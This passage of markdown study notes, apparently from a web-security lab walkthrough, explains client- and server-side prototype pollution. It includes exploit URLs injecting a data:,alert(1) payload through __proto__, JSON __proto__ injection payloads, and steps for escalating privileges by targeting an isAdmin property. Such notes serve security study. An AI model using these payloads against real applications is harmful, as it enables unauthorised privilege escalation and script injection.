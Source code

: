 * The "config" Object is not defining the "value" descriptor for "transport_url" property, we can try to pollute the Object prototype with the "value" property containing a malicious payload.

* https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/defineProperty


* Craft an exploit:

    * /?\_\_proto\_\_[value]=data:,alert(1);

    * /?\_\_proto\_\_.value=data:,alert(1);



<br><br><br>

### Server Side Pollution Examples

* Use the Burp Extension for help with the exploitation process - https://github.com/portswigger/server-side-prototype-pollution

<br>

### __Server-side Prototype Pollution - Privilege Escalation__

* Identify functionality on the application where JSON data is returned in a response that appears to represent your "User" Object.

    * Example response:

```json
{
"username":"test",
"firstname":"test",
"isAdmin":false
}
```

* Identify a prototype pollution source:

    * In the request body, add a new property to the JSON with the name \_\_proto\_\_, containing an object with an arbitrary property:

    * Example payload:

```json
"__proto__": {
	"foo":"bar"
}
```

* If in the response you see the "foo" property added, without the "\_\_proto\_\_" property, this suggests that we may have polluted the Object's prototype and that the "foo" property has been inherited via prototype chain.


* Identify a gadget:

    * The "isAdmin" property would be something to target for privilege escalation.
